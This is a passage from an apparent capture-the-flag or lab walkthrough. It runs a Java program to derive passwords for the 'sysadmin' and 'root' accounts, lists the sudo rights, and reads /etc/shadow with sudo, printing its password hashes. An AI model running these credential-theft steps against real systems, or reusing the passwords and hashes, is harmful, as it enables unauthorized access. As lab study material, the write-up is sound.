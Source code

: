     public static void main(String[] args) {
        int[] a = processLoop(args[0]);
        for (int i=0; i<a.length; i++) {
            System.out.print((char) a[i]);
        }
        System.out.println();
    }
}


root@kali32:~# javac test.java 
{% endcodeblock %}

We encrypt another usernames to get passwords.
{% codeblock %}
{% raw %}
root@kali32:~# java test sysadmin
7531/{{tor/rv/A
root@kali32:~# java test root
31/Fwxw+2
{% endraw %}
{% endcodeblock %}
 
Now we can log as sysadmin. Using sudo:
{% codeblock %}
User sysadmin may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*
{% endcodeblock %}

{% codeblock %}
sysadmin@slax:~$ sudo cat /etc/shadow 
root:$1$vEElgVNe$9nK8G715PgmFE4g1QyTII0:13553:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
sysadmin:$1$Nj4nHA2G$JbByYpmcxsXEiWAUObt1n0:13550:0:99999:7:::
csadmin:$1$fL53QS96$x94h96zABA9MrbISq7VtZ1:13550:0:99999:7:::
sdadmin:$1$hL8T9Cgk$0g4u8UgtkMn11OJ7sjsK00:13550:0:99999:7:::
dbadmin:$1$dQwfzffm$kIXUGVFu3XZmm4jZNp6wa1:13550:0:99999:7:::
{% endcodeblock %}
